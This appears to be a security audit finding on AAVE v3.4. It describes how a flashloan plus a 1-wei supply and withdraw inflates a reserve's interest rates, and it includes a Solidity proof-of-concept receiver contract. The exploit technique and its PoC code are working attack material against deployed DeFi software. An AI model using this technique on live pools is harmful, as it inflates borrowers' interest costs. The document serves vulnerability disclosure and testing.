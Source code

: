 Let's make an example. Let's assume that the Pool has `200_000 USDC` supplied to the reserve and `100_000 USDC` has been already borrowed. `reserve.virtualUnderlyingBalance` will be equal to `100_000 USDC`.

The attacker performs a flashloan of `100_000 USDC` bringing the `virtualUnderlyingBalance` to `0` (zero) and in the `receiver` callback performs a combo of `supply+withdraw` of `1 wei` of `USDC` to trigger the update of the reserve indexes and rates.

When the rates are updated by the `withdraw` operation the `virtualUnderlyingBalance` will be equal to `0` and so the usage ratio of the reserve will be equal to `100%`. This will boost both the supply and borrow rates that **will not** be updated back when the `_handleFlashLoanRepayment` is executed to finish the flashloan flow.

Those boosted rates will remain inflated until someone else perform an operation that involve the update of the reserve state (indexes) and rates. This will result in the temporary increase (until the "refresh") of both the interest paid by the borrower and paid to (in the future) to the suppliers (and the amount of shares accounted to the treasury as protocol fees).

The attack can be repeated as at infinite as long as the attacker is willing to pay the small fee identified by the flashloan premium.

### PoC

This PoC can be executed on both the v3.4 and v3.4 release of AAVE to see the different behavior and compare the values of the indexes, rates and supply/debt balance.

```solidity
// SPDX-License-Identifier: BUSL-1.1
pragma solidity ^0.8.0;

import "forge-std/console.sol";
import { IERC20 } from "../../../src/contracts/dependencies/openzeppelin/contracts/IERC20.sol";
import { ReserveConfiguration } from "../../../src/contracts/protocol/pool/PoolConfigurator.sol";
import { WadRayMath } from "../../../src/contracts/protocol/libraries/math/WadRayMath.sol";
import { PercentageMath } from "../../../src/contracts/protocol/libraries/math/PercentageMath.sol";
import { IPoolAddressesProvider } from "../../../src/contracts/interfaces/IPoolAddressesProvider.sol";
import { DataTypes } from "../../../src/contracts/protocol/libraries/types/DataTypes.sol";
import { TestnetProcedures } from "../../utils/TestnetProcedures.sol";
import { FlashLoanSimpleReceiverBase } from "../../../src/contracts/misc/flashloan/base/FlashLoanSimpleReceiverBase.sol";
import { IDefaultInterestRateStrategyV2 } from "../../../src/contracts/interfaces/IDefaultInterestRateStrategyV2.sol";

contract FlashloanReceiver is FlashLoanSimpleReceiverBase {
  constructor(
    IPoolAddressesProvider provider
  ) FlashLoanSimpleReceiverBase(provider) {}

  function executeOperation(
    address asset,
    uint256 amount,
    uint256 premium,
    address, // initiator
    bytes memory // params
  ) public override returns (bool) {
    // supply and withdraw 1 wei to just trigger the reserve update of the index and rates
    // this will bring the usage ratio to 100% because we have flashloaned everything
    POOL.supply(asset, 1, address(this), 0);
    POOL.withdraw(asset, 1, address(this));

    // vb now is 0
    require(POOL.getVirtualUnderlyingBalance(asset) == 0);
    return true;
  }
}
```